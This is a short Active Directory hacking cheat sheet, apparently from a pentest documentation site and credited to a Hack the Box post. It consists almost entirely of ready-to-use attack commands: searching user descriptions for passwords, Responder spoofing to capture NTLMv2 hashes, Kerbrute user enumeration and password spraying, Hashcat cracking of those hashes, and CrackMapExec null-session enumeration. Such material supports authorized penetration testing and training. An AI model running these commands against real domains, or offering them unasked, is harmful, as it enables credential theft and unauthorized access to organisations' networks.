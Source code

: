 # Active Directory Hacking

:::info Credits to Hack the Box

A lot of the commands in this cheatsheet are taken from a [Hack the Box blog post](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide).

:::

## Powershell

**Also found in:** [Batch and Powershell Cheatsheet](/commands-cheatsheet/windows/batch-and-powershell)

### Load the built-in Active Directory PowerShell module

```powershell title="PowerShell"
Import-Module ActiveDirectory
```

### List domain users using Get-ADUser and filter by the username

```powershell title="PowerShell"
Get-ADUser -Filter * | select Name
```

### Check the description field of domain users for sensitive data such as passwords

```powershell title="PowerShell"
Get-DomainUser * | Select-Object samaccountname,description
```

## Responder

### Analysis mode

```bash
sudo responder -I <interface> -A
```

### Response spoofing to gather NTLMv2 password hashes

```bash
sudo responder -I <interface> -w -d
```

## Kerbrute

### Enumerate valid Active Directory users for password spraying

```bash
kerbrute userenum -d <domain> --dc <ip> jsmith.txt -o kerb-results
```

```bash
kerbrute passwordspray -d <domain> --dc <ip> valid_users.txt <password>
```

## Hashcat

**Also found in:** [Hashcat Cheatsheet](/commands-cheatsheet/hashcat)

### Crack an NTLMv2 hash gathered with Responder

```bash
hashcat -m 5600 <hash> <wordlist>
```

## CrackMapExec

**Also found in:** [SMB Cheatsheet](/commands-cheatsheet/crackmapexec)

### Enumerate the domain password policy

```bash
crackmapexec smb <ip> -u <user> -p <password> --pass-pol
```

### SMB NULL sessions on a dc host and enumerate valid users

```bash
crackmapexec smb <ip> -u '' -p '' --users --export $(pwd)/users.txt
```
